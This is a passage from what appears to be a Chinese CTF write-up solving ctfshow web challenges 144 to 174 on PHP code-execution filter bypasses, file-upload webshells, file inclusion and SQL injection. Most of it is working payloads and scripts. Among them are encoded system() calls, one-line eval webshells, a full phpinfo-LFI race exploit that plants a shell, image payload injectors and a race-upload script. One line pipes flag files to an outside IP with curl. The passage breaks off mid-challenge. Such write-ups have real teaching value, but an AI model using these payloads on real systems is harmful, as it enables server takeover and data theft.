import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("xor_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"^\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)

```


#### web144

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 16:21:15

*/

highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && check($v3)){
        if(preg_match('/^\W+$/', $v2)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}

function check($str){
    return strlen($str)===1?true:false;
}
```

这题跟143差不多，只是参数交换了一下位置

直接异或出了

```
?v1=1&v2=-("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%03%01%0b%00%06%00"^"%60%60%7f%20%60%2a")&v3=1
```


#### web145

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 17:41:33

*/


highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

这题ban掉了异或运算符^,同时也ban掉了加减乘除

但是我们还可以考虑构造三目运算符配合取反

payload:

```
/?v1=1&v2=1&v3=?(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5):
```


#### web146

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 17:41:33

*/


highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\:|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

这题把三目运算符也ban了

可以考虑使用位运算符|



payload:

```
?v1=1&v2=1&v3=|(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5)|
```


#### web147

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 02:04:38

*/


highlight_file(__FILE__);

if(isset($_POST['ctf'])){
    $ctfshow = $_POST['ctf'];
    if(!preg_match('/^[a-z0-9_]*$/isD',$ctfshow)) {
        $ctfshow('',$_GET['show']);
    }

}
```

create_function()代码注入

如果我们第二个参数传入 echo 1;}phpinfo();//
就等价于

```
function f($a) {
  echo 1;}phpinfo();//
}
从而执行phpinfo()命令
```

那要怎么绕过正则表达式呢

```
/^[a-z0-9_]*$/isD
```

这个正则表达式匹配所有的字母数字和下划线

而且由于

> php里默认命名空间是\，所有原生函数和类都在这个命名空间中。 普通调用一个函数，如果直接写函数名function_name()调用，调用的时候其实相当于写了一个相对路径； 而如果写\function_name()这样调用函数，则其实是写了一个绝对路径。 如果你在其他namespace里调用系统类，就必须写绝对路径这种写法

所以我们可以通过\create_function()来绕过这个正则表达式

payload:

```
GET show=;};system('cat f*');/*
POST ctf=\create_function
```


#### web148

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 03:52:11

*/


include 'flag.php';
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(preg_match("/[A-Za-z0-9_\%\\|\~\'\,\.\:\@\&\*\+\- ]+/",$code)){
        die("error");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

function get_ctfshow_fl0g(){
    echo file_get_contents("flag.php");
}
```

没ban异或运算符

payload:

```
("%08%02%08%09%05%0d"^"%7b%7b%7b%7d%60%60")("%03%01%09%01%06%02"^"%60%60%7d%21%60%28");
//system("cat f*");
```


#### web149

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 04:34:40

*/


error_reporting(0);
highlight_file(__FILE__);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}

file_put_contents($_GET['ctf'], $_POST['show']);

$files = scandir('./'); 
foreach($files as $file) {
    if(is_file($file)){
        if ($file !== "index.php") {
            unlink($file);
        }
    }
}
```

直接用一句话木马覆写掉index.php

```
GET ?ctf=index.php
POST show=<?php @eval($_POST['1']);?>
```

写入后

```
POST 1=system('cat /ctfshow_fl0g_here.txt');
```


#### web150

非预期 日志注入

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 07:12:57

*/
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);

class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

    function __destruct(){
        echo $this->secret;
    }

    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }

    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE){
    include($ctf);
}
```

这题存在非预期，可以通过extract变量覆盖使isVIP=true，接着进行日志注入


或者


把马写到日志里

payload:

```
GET ?isVIP=true&1=system('cat f*');
POST ctf=/var/log/nginx/access.log
```


#### web150plus

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 07:12:57

*/
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);

class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

    function __destruct(){
        echo $this->secret;
    }

    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }

    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE && strrpos($ctf,"log")===FALSE){
    include($ctf);
}

```

这题ban掉了非预期解 日志注入的方法

首先我们需要知道__autoload方法的作用

- `__autoload()`：自动加载函数，当使用未定义的类时会自动调用该函数。如果`$class`变量已设置，则将其作为函数调用。

而且这题的__autoload并不在类CTFSHOW中（障眼法）


这个类在isVIP后面已经结束了

所以我们可以通过

```
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}
```

调用任意的类

我们可以根据php会将.解析成_的特性绕过正则

```
GET ?..CTFSHOW..=phpinfo
```


由于原题需要竞争所以后面就直接把flag放环境变量了

这里我们直接在phpinfo里面找就行


**原题解法**
拿到phpinfo我们就可以getshell了

> PHP LFI本地文件包含漏洞主要是包含本地服务器上存储的一些文件，例如session文件、日志文件、临时文件等。但是，只有我们能够控制包含的文件存储我们的恶意代码才能拿到服务器权限。假如在服务器上找不到我们可以包含的文件，此时可以通过利用一些技巧让服务存储我们恶意生成的临时文件，该临时文件包含我们构造的的恶意代码，此时服务器就存在我们可以包含的文件了。如果目标网站上存在phpinfo，则可以通过phpinfo来获取临时文件名，进而进行包含。
> 原文链接：https://blog.csdn.net/qq_63701832/article/details/129337902

> 过程
> 1.发送包含了webshell的上传数据包给phpinfo页面，这个数据包的header、get等位置需要塞满垃圾数据
>
> 2.phpinfo页面会将所有数据都打印出来，1中的垃圾数据会将整个phpinfo页面撑得非常大
>
> 3.php默认的输出缓冲区大小为4096，可以理解为php每次返回4096个字节给socket连接
>
> 4.操作原生socket，每次读取4096个字节。只要读取到的字符里包含临时文件名，就立即发送第二个数据包
>
> 5.此时，第一个数据包的socket连接实际上还没结束，因为php还在继续每次输出4096个字节，所以临时文件此时还没有删除
>
> 6.利用这个时间差，发第二个数据包，即可成功包含临时文件，最终getshell
>
> 处理
> PHP 对 enctype="multipart/form-data"请求的处理过程如下：
> 1、请求到达；
> 2、创建临时文件（通常是/tmp/php[6 个随机字符]），并写入上传文件的内容；
> 3、调用相应 PHP 脚本进行处理，如校验名称、大小等；
> 4、删除临时文件。
> 总结
> php post 上传文件产生临时文件，phpinfo读临时文件的路径和名字，本地包含后生成后门
> 原文链接：https://blog.csdn.net/qq_63701832/article/details/129337902

大佬的脚本，但是是python2的

```python
#!/usr/bin/python 
import sys
import threading
import socket
 
def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /06/phpinfo.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /06/lfi.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)
 
def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 
    s.connect((host, port))
    s2.connect((host, port))
 
    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt; ")
        fn = d[i+17:i+31]
    except ValueError:
        return None
 
    s2.send(lfireq % (fn, host))
    d = s2.recv(4096)
    s.close()
    s2.close()
 
    if d.find(tag) != -1:
        return fn
 
counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args
 
    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1
 
            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break                
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    self.event.set()
                    
            except socket.error:
                return
    
 
def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)
    
    d = ""
    while True:
        i = s.recv(4096)
        d+=i        
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
    s.close()
    i = d.find("[tmp_name] =&gt; ")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")
    
    print "found %s at %i" % (d[i:i+10],i)
    # padded up a bit
    return i+256
 
def main():
    
    print "LFI With PHPInfo()"
    print "-=" * 30
 
    if len(sys.argv) < 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)
 
    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)
 
    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)
    
    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with poolsz %d: %s" % (sys.argv[3], e)
        sys.exit(1)
 
    print "Getting initial offset...",  
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()
 
    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()
 
    print "Spawning worker pool (%d)..." % poolsz
    sys.stdout.flush()
 
    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))
 
    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
        print
        if e.is_set():
            print "Woot!  \m/"
        else:
            print ":("
    except KeyboardInterrupt:
        print "\nTelling threads to shutdown..."
        e.set()
    
    print "Shuttin' down..."
    for t in tp:
        t.join()
 
if __name__=="__main__":
    main()
```


### 文件上传

#### web151


前台验证

将一句话木马改成png，抓包修改后缀即可


payload:

```
1=system('cat /var/www/html/flag.php');
```


#### web152

这道题没有前端检验，但是解法跟web151是一样的


#### web153

一开始尝试了大小写绕过


上传后发现服务器不解析

这题可以利用.user.ini来进行文件上传

[[文件上传\]浅析.user.ini的利用-CSDN博客](https://blog.csdn.net/cosmoslin/article/details/120793126)

首先我们在文件中写入


这句话相当于php中的文件包含

写入后将文件改为png上传，抓包将文件名改为.user.ini


接着将一句话木马改为1.png上传


接着访问 /upload/index.php

payload:

```
1=system('tac ../f*');
```


注意这个方法的前提是文件上传的目录中有能够执行的php的文件（如index.php）

#### web154

这题跟上题差不多，只是过滤了php

将一句话木马改成短标签的形式就可以了（我一直用的短标签所以没什么影响）


#### web155

解法同web154一样


#### web156


这题有新的waf,可以测出来waf掉了[]

那既然这样我们直接读flag就是了

```
<?=system('cat ../f*');?>
```

或者也可以用{}代替['']

```
<?=@eval($_GET{1});?>
```


#### web157


这道题[]和;都被waf了

payload:

```
<?=system("tac ../f*")?>
```

不写;就行了


#### web158

这题和上题的解法一样


#### web159


这题waf掉了()

 没有()怎么进行rce呢？我们可以想到``进行命令执行的技巧

payload:

```
<?=`tac ../f*`?>
```


#### web160


一开始发现.user.ini穿不上，后面测到原来是空格被waf了，.user.ini里也不能有空格

相比上一题这题将空格和``反引号和log过滤掉了

这题我们可以考虑使用日志注入的方法

尝试一下包含日志 nginx的log在/var/log/nginx/access.log

payload:

```
<?=include"/var/l"."og/nginx/access.l"."og"?>
```


看到有user-agent说明这条路行得通


直接读flag


#### web161

这一题在上一题的基础上增加了文件头的检验

我们可以通过在上传文件的时候加上图片的文件头**GIF89a**进行绕过


其余和web160无异，利用文件包含进行日志注入即可


#### web162


fuzz一下可以发现这题把.也ban掉了

所以我们在上传的.user.ini时我们可以去掉文件后缀


```
GIF89a
auto_prepend_file=1
```

接下来考虑怎么构造读flag

可以通过取反绕过.的过滤，进行文件包含

```
<?=$a="Ñ"?>  
<?=$b=~$a?>
<?=$l="l"?>
<?=$o="o"?>
<?=$g="g"?>
<?=include"/var/$l$o$g/nginx/access$b$l$o$g"?>
```

文件 1 中的内容 下面的Ñ 为 . 取反后的字符 十六进制为 D1，利用的时候，在brup 中更改hex里的值。


日志注入即可


#### web163

这题和上题的条件差不多，但是存在竞争条件，上传图片的话会被删掉

这题我们尝试使用**远程文件包含**


我们把payload写在服务器上，然后起一个http服务


记住，文件包含时要把ip转换成长整型（.被waf了）

```
GIF89a
auto_prepend_file=http://长整型ip:7777/s
```


传.user.ini

接着搓一个发包脚本

```python
import requests

while True:
    burp0_url = "http://3de6e682-59e3-489c-8e72-2b74e3db5058.challenge.ctf.show/"
    burp1_url = "http://3de6e682-59e3-489c-8e72-2b74e3db5058.challenge.ctf.show/upload/"
    burp0_headers = {"Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "zh-CN,zh;q=0.9", "Sec-Ch-Ua": "\"Not?A_Brand\";v=\"99\", \"Chromium\";v=\"130\"", "Sec-Ch-Ua-Mobile": "?0", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36", "Accept": "application/json, text/javascript, */*; q=0.01", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryBcDoqZWhQP52WEA6", "Origin": "https://938b9a73-97ad-4b15-81d8-0101678e16f8.challenge.ctf.show", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Dest": "empty", "Referer": "https://938b9a73-97ad-4b15-81d8-0101678e16f8.challenge.ctf.show/", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=1, i", "Connection": "keep-alive"}
    burp0_data = "------WebKitFormBoundaryBcDoqZWhQP52WEA6\r\nContent-Disposition: form-data; name=\"file\"; filename=\".user.ini\"\r\nContent-Type: image/png\r\n\r\nGIF89a\r\nauto_prepend_file=http://长整型ip:7777/shell\r\n------WebKitFormBoundaryBcDoqZWhQP52WEA6--\r\n"
    log = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    log1 = requests.get(burp1_url)
    print(log.status_code)
    print('\n')
    print(log1.text)
    if "ctfshow" in log1.text:
        print('getflag')
        break
```


#### web164


这题随便传个图片试试发现多了个查看图片

```
https://775e9cd3-3a73-47a1-b31d-7b4450ec5573.challenge.ctf.show/download.php?image=94f7678cc4cda39c02c7890bc8fe6941.png
```


从url我们可以看出这题存在图片包含

我们可以利用这个文件包含去执行我们的图片马

大佬的脚本，可以绕过二次渲染

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);


$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?>

```

```
图片马的内容 <?$_GET[0]($_POST[1]);?>
```

没有回显

外带读flag

```
POST 1=cat f* | curl -X POST -d @- http://106.55.168.231:7777/
GET 0=system
```


#### web165

这题考察的也是图片马，但是是用jpg的图片马绕过二次渲染

大佬的脚本

```php
<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */
		
    $miniPayload = "<?=eval(\$_POST[7]);?>"; //注意$转义


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }

    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }

    class DataInputStream {
        private $binData;
        private $order;
        private $size;

        public function __construct($filename, $order = false, $fromString = false) {
            $this->binData = '';
            $this->order = $order;
            if(!$fromString) {
                if(!file_exists($filename) || !is_file($filename))
                    die('File not exists ['.$filename.']');
                $this->binData = file_get_contents($filename);
            } else {
                $this->binData = $filename;
            }
            $this->size = strlen($this->binData);
        }

        public function seek() {
            return ($this->size - strlen($this->binData));
        }

        public function skip($skip) {
            $this->binData = substr($this->binData, $skip);
        }

        public function readByte() {
            if($this->eof()) {
                die('End Of File');
            }
            $byte = substr($this->binData, 0, 1);
            $this->binData = substr($this->binData, 1);
            return ord($byte);
        }

        public function readShort() {
            if(strlen($this->binData) < 2) {
                die('End Of File');
            }
            $short = substr($this->binData, 0, 2);
            $this->binData = substr($this->binData, 2);
            if($this->order) {
                $short = (ord($short[1]) << 8) + ord($short[0]);
            } else {
                $short = (ord($short[0]) << 8) + ord($short[1]);
            }
            return $short;
        }

        public function eof() {
            return !$this->binData||(strlen($this->binData) === 0);
        }
    }
?>

```

jpg图片比较脆弱，成功率很低，我试了十多张图片都没成功


#### web166

zip注入

这题只能上传zip，上传后会出现查看文件，存在文件包含

本质上就是利用文件包含执行我们的恶意代码


#### web167

.htaccess文件利用

> 什么是.htaccess？
>
> htaccess文件是[Apache](https://baike.baidu.com/item/Apache/0?fromModule=lemma_inlink)服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页[301重定向](https://baike.baidu.com/item/301重定向/1135400?fromModule=lemma_inlink)、自定义[404错误页面](https://baike.baidu.com/item/404错误页面/583066?fromModule=lemma_inlink)、改变[文件扩展名](https://baike.baidu.com/item/文件扩展名/1270230?fromModule=lemma_inlink)、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。

如果服务器开启了.htaccess，那我们就可以利用.htaccess将jpg或者png等后缀的文件，作为php文件解析

```
AddType/AddHandler application/x-httpd-php ".jpg"
```

由于有前端验证，我们要先把编写好的.htaccess文件改为.jpg后缀

再通过抓包将文件名修改为.htaccess


接着上传我们写好的一句话木马(后缀为.jpg)


可以看到我们的一句话木马已经被成功执行了


#### web168

基础免杀


这题没有限制文件类型，可以上传php

应该是对关键词有过滤


简单拼接一下试试，没想到直接成功了

payload

```
<?php $a="sys"."tem"; $a($_REQUEST[1]);?
```

```
GET 1=tac%20../flagaa.php
```


#### web169

.user.ini文件包含

**前端做了校验只能传`zip`文件,后端又做了图片文件检查(需要改成image/png).过滤了`<>`和`php`**

**先上传一个`index.php`，然后利用日志包含，上传`.user.ini` 写入以下内容进行包含然后`UA`里面写木马**

```
auto_append_file="/var/log/nginx/access.log"

<?=system('cat ../flagaa.php')?>
```


#### web170

这题和web169解法一样，也是可以进行日志包含


### sql注入

#### **无过滤注入**（对输出内容进行过滤）

#### web171

```
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

flag是存在于username为flag的用户的数据中，我们只需要通过

```
1' or 1=1 --+
```

即可输出所有用户数据


#### web172

相比上一题，这题增加了过滤

```
//检查结果是否有flag
if($row->username!=='flag'){
      $ret['msg']='查询成功';
    }
```

方法一: 联合查询

因为联合查询只会显示password

```
api/?id=1' union select 1,(select group_concat(schema_name) from information_schema.schemata),database()%23

/api/?id=1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='ctfshow_web'),database()%23

/api/?id=1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='ctfshow_web' and table_name='ctfshow_user'),database()%23

//看到有3列 id,username,password

/api/?id=1' union select 1,(select group_concat(password) from ctfshow_web.ctfshow_user),database()%23

//查询password发现没有flag

//查另一个表 ctfshow_user2

/api/?id=1' union select 1,(select group_concat(password) from ctfshow_web.ctfshow_user2),database()%23

//看到flag
```

方法二: 将用户名字段进行编码，绕过检测

```
-1' union select to_base64(username),password from ctfshow_user2 --+
```

方法三: 只查询密码

```
-1' union select id,password from ctfshow_user2 where username='flag
```


#### web173

过滤要求查询结果中不能出现flag字段

```
//检查结果是否有flag
    if(!preg_match('/flag/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

方法一：联合查询

和上题解法一样，只是这题flag在ctfshow_user3

方法二：

只查询password

```
-1' union select id,id,password from ctfshow_user3 where username='flag
```

方法三: 将用户名字段进行编码，绕过检测

```
-1' union select to_base64(username),password from ctfshow_user3 --+
```


#### web174

输出时增加了过滤数字

```
//检查结果是否有flag和数字
    if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
